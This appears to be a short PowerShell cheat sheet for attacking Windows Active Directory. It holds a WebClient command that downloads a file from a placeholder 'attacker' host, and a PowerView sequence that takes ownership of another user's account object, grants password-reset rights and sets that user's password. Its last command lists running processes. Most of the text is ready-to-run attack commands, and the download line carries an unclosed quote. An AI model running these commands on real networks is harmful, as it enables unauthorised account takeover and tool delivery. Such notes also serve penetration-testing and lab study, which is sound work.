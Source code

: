 ## .NET Objects

### WebClient

```
$webclient = (New-Object System.Net.WebClient).DownloadFile("http://attacker/file.txt", "C:\Temp\file.txt)
```

# Credentials

Create credentials in PowerShell:

```powershell
$cred = ConvertTo-SecureString "qwer1234QWER!@#$" -AsPlainText -force
```

# ACLs PowerView

Import PowerView in PowerShell:

```powershell
. .\PowerView.ps1
```

Set tom as the owner of claire’s ACL:

```powershell
Set-DomainObjectOwner -identity claire -OwnerIdentity tom
```

Grant tom permissions to change passwords on the ACL:

```powershell
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
```

Set claire’s password:

```powershell
Set-DomainUserPassword -identity claire -accountpassword $cred
```

# Enumerate Processes

Enumerate processes with `.ps1` in their name:

```powershell
Get-WmiObject Win32_Process | Where-Object {$_.CommandLine -like "*ps1"} | format-list -Property CommandLine,CreationDate
```